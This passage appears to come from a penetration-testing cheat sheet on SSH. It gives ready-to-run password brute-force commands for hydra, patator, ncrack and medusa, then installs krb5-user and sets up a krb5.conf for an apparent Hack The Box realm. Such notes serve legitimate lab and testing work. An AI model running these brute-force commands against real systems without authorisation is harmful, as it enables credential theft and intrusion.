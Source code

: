 We can use hydra to bruteforce ssh:

```
hydra -L <username_wordlist> -P <password_wordlist> ssh://<IP>
hydra -l username -P wordlist.txt ssh://127.0.0.1
hydra -L usernames.txt -P passwords.txt -s 2222 ssh://10.10.10.66 -v -t 4
```

### patator <a href="#patator" id="patator"></a>

We can use [patator](https://github.com/lanjelot/patator) as well:

```
patator ssh_login host=<target_ip> port=<port> user=username password=FILE0 0=/usr/share/seclists/Passwords/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed'
patator ssh_login host=<target_ip> port=22022 password=FILE0 0=/opt/SecLists/Passwords/probabable-v2-top1575.txt persistent=0
```

### ncrack <a href="#ncrack" id="ncrack"></a>

ncrack can be used too:

```
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
```

### medusa <a href="#medusa" id="medusa"></a>

medusa is another common tool that's used:

```
medusa -h <target_ip> -U <users_wordlist.txt> -P <passwords.txt> -M ssh <target_ip>
```

## SSH and Kerberos

We can use the SSH protocol and authenticate with Kerberos.

### krb5

We can use krb5 for user authentication with krb5-user:

```
sudo apt install krb5-user
```

The default configuration is in **/etc/krb5.conf** and we need to add the target realm:

```
[libdefaults]
        default_realm = REALCORP.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        REALCORP.HTB = {
                kdc = srv01.realcorp.htb
        }

[domain_realm]
    .realcorp.htb = REALCORP.HTB
```